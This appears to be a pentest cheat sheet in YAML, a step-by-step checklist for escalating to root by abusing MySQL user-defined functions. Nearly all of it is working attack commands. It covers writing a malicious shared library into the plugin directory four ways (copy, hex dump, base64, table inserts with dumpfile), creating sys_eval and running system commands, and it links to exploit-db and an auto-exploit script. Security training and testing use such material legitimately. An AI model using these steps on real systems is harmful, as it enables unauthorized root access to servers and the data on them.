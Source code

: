 ```yaml
---
functions:
  privilege-escalation:
    - description: Simplistic and standard checklist for linux privilege escalation, in no particular order
      code: |
        Create a user-defined-function
        -------------------------------
        - [ ] Do you have write privileges to the db?
        - [ ] Is mysql running as root?
        - [ ] Can you locate the plugin folder?

        SHOW GRANTS;  <-- show privileges
        SHOW VARIABLES;  <-- find the plugin directory  (blank can mean default location of /usr/lib/)

        ===== STEP 1 =====
        Get your udf.so into the plugin folder

        Method 1: copy 
          Copy the udf.so into the plugin folder
        Method 2: perform a hexdump
          od -A n -t x1 lib_mysqludf_sys.so | sed 's/ *//g' | tr -d '\n' | xclip
          select <hex> into dumpfile "<plugin folder>/udf.so";
        Method 3: perform a base64 encoded  (IF MARIADB 5.6+)
          base64 <file> -w 0 > <file>.b64
          base64 -w 0 myudf.so > myudf.b64
          cat <file>.b64 | xclip

          set @lib = "<base64>";
          select from_base64(@lib) into dumpfile "<plugin folder>/udf.so";
        Method 4: transfer file via table inserts  (easiest)
          create table foo(line blob);insert into foo values(load_file('/tmp/myudf.so'));select * from foo into dumpfile "<plugin folder>/udf.so";

        ===== STEP 2 =====
        Create the user-defined function

        create function sys_eval returns string soname 'myudf.so';  (the function name may change depending on your UDF.so library)

        ===== STEP 3 =====
        Code execution

        select sys_eval('id');

resources : |
  https://www.exploit-db.com/exploits/50236
  https://www.exploit-db.com/papers/44139/
  https://github.com/mysqludf/lib_mysqludf_sys  <-- this is the udf file I used
  https://github.com/MidnightSeer/scripts/blob/master/auto-udf.sh  <-- auto exploit, do not use unless you understand all of the above
---
```


